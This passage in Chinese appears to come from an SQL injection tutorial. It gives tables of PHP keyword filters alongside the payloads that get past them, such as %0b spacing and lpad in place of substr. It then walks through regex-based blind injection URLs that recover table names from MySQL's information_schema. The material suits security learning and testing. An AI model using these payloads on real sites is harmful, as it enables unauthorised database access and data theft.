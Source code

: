 | 过滤关键字 | and, or, union, where, limit, group by, select, ', hex, substr |
| php 代码 | preg_match('/(and&#124;or&#124;union&#124;where&#124;limit&#124;group by&#124;select&#124;\'&#124;hex&#124;substr)/i', $id) |
| 会过滤的攻击代码 | 1 && substr(user,1,1) = lower(conv(11,10,16))/td>      |
| 绕过方式 | 1 && lpad(user,7,1) |

| 过滤关键字 | and, or, union, where, limit, group by, select, ', hex, substr, 空格 |
| php 代码 | preg_match('/(and&#124;or&#124;union&#124;where&#124;limit&#124;group by&#124;select&#124;\'&#124;hex&#124;substr&#124;\s)/i', $id) |
| 会过滤的攻击代码 | 1 && lpad(user,7,1)/td>      |
| 绕过方式 | 1%0b&#124;&#124;%0blpad(user,7,1) |
| 过滤关键字 | and  or  union  where |
| php 代码 | preg_match('/(and&#124;or&#124;union&#124;where)/i',$id) |
| 会过滤的攻击代码 | 1 &#124;&#124; (select user from users where user_id = 1) = 'admin' |
| 绕过方式 | 1 &#124;&#124; (select user from users limit 1) = 'admin' |

#### 利用正则表达式进行盲注

我们都已经知道，在 MYSQL 5+中 information_schema 库中存储了所有的 库名，表明以及字段名信息。故攻击方式如下：

1、判断第一个表名的第一个字符是否是 a-z 中的字符,其中 blind_sqli 是假设已知的库名。

```
index.php?id=1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^[a-z]' LIMIT 0,1) /* 
```

2、判断第一个字符是否是 a-n 中的字符

```
index.php?id=1 and 1=(SELECT 1 FROM information_schema.tables  WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^[a-n]' LIMIT 0,1)/* 
```

3、确定该字符为 n

```
index.php?id=1 and 1=(SELECT 1 FROM information_schema.tables  WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^n' LIMIT 0,1) /* 
```

4、表达式的更换如下

```
'^n[a-z]' -> '^ne[a-z]' -> '^new[a-z]' -> '^news[a-z]' -> FALSE 
```

这时说明表名为 news ，要验证是否是该表明 正则表达式为'^news$'，但是没这必要 直接判断 table_name = 'news' 不就行了。

5、接下来猜解其它表了 只需要修改 limit 1,1 -> limit 2,1 就可以对接下来的表进行盲注了。

#### order by 后的注入
